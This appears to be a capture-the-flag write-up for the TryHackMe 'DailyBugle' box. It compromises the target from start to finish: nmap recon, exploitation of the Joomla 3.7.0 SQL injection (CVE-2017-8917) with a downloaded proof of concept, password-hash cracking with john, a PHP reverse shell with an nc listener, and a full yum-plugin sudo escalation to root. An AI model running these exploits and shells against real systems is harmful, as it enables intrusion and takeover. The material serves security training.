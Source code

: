 # DailyBugle

### Typology: _Linux_

--- 

We can start with nmap:
```bash
nmap -sC -sV -p- --min-rate=1200 10.10.150.113

PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp    open     http        Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3068/tcp  filtered ls3bcast
6673/tcp  filtered vision_elmd
13028/tcp filtered unknown
31205/tcp filtered unknown
49388/tcp filtered unknown
50720/tcp filtered unknown
50954/tcp filtered unknown
55204/tcp filtered unknown
65431/tcp filtered unknown
```

Summarize:

| **_Port_** |                                         **_Description_**                                        |
|:----------:| ------------------------------------------------------------------------------------------------ |
| Port 22    | SSH service is open but we don't have any credentials|
| Port 80    | HTTP service, there is a robots.txt   |
| Port 3068-65431   | N/D |


### Port 80:

![joomla](./pics/joomla.png)

We can see from `Wappalyzer` that is `JOOMLA CMS`, we can gain more information in `/robots.txt`:
```bash
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

If we browse to `/Administrator` it will prompt a login pange but we don't have any credentials.

A quick search on google `Joomla Pentest` will show a cool page on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla), an interesting URI path is this one:
```xml
/administrator/manifests/files/joomla.xml

<version>3.7.0</version>
```
> I tried other commands tool, like bruteforce (no results) or scanner but they gave the same results

We can find out the version, let's find out if it's vulnerable

### CVE-2017-8917:

It's vulnerable to a SQL injection, [here](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html) the link to understand how it works. 

Further research results in two ways to exploit it:

- Manual with sqlmap, follow the steps at this [link](https://www.exploit-db.com/exploits/42033)

- Automated POC at this [link](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py)

We can use the automated POC:

> Trust me It's more fast than the manual

```bash
wget https://github.com/stefanlucas/Exploit-Joomla/raw/master/joomblah.py

python3 joomyla.py http://10.10.150.113/index.php

Fetching CSRF token
Testing SQLi
Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '<REDACTED>', '', '']
Extracting sessions from fb9j5_session
```
We retrieve an hash, we save in a file and we can crack via john:
```bash
echo 'hash' > hash

john hash -w=/usr/share/wordlists/rockyou.txt

0g 0:00:00:05 0.01% (ETA: 10:22:28) 0g/s 270.9p/s 270.9c/s 270.9C/s runescape..marjorie
<REDACTED>     (?)     
1g 0:00:02:53 DONE (2024-01-30 18:32) 0.005756g/s 269.7p/s 269.7c/s 269.7C/s sweetsmile..setsuna
```
We have valid credentials for the webpage

### Admin panel:

![admin](./pics/admin.png)

We must gain an RCE, an useful insight is in the previous page on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla):

![rce](./pics/rce.png)

If we following the steps we can add a revshell in `error.php`, we can use the one called `PHP PentestMonkey` on [revshells' site](https://www.revshells.com/)

open the listener:
```bash
rlwrap -cAr nc -lvnp 4445
```
We're in, it's time to enumerate

### Privesc User:

Before to run `linpeas` or other automated tools, we can looking around the filesystem

> Remember there is an entire website to scour

Indeed we can found a valid password in `/var/www/html/configuration.php` for the user jjameson, we can retrieve the  first flag

> I spent some time to launch manual command in order to enumerate

### Privesc Root:

This time we can see something at first glance by prompt this command:
```bash
sudo -l

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
Quick search on google will results in a cool link on [GTFObins](https://gtfobins.github.io/gtfobins/yum/)

We can privesc to root user with theese commands:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
```
Then:
```bash
sudo yum -c $TF/x --enableplugin=y
```
We're root and we can find and submit the last flag.